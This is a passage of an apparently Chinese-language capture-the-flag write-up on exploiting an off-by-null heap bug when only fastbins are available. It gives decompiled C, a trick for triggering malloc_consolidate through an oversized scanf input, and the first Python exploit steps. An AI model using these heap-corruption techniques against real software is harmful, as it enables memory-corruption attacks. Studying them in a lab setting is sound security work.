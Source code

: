 ```c
  __int64 v3; // [rsp+18h] [rbp-8h]

  if ( !a2 )
    return 0LL;
  v3 = (signed int)read(0, a1, a2);
  if ( v3 == 88 )
    a1[88] = 0;
  return v3;
}
```

当只有`fastbin`时的`off-by-null`似乎不能利用,当时比赛的时候苦恼了很久

## tips
在输入选项时, 通过`scanf`输入,当输入非常长的字符串时,即使使用`setbuf()`关闭了输入缓冲区,依然会暂时申请一个`large chunk`存储输入的字符串.  



```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  sub_E76();
  while ( 1 )
  {
    menu();
    __isoc99_scanf((__int64)"%d", (__int64)&v3);
    switch ( v3 )
    {
      case 1:
        add();
        break;
      case 2:
        remove();
        break;
      case 3:
        show();
        break;
    }
  }
}
```

在分配`large chunk`之前会调用`malloc_consolidate()`函数，使得`fastbin中的chunk`合并，通过这个小技巧我们可以获得`unsorted bin`.

## 利用流程
- 首先构造好相应的堆结构 ,这里申请的堆块儿`size`小于`0x58`  ,然后释放掉
```python
add(87,0,'aaaa')
add(87,1,'bbbb')
add(87,2,'cccc')
add(87,3,'cccc')
add(87,4,'cccc')
add(0x20,5,'dddd')

for i in range(4):
	remove(i)
```
- 通过`scanf`触发`fastbin`合并  
```python
p.sendlineafter("oice >> \n",'1'*0x500)
```
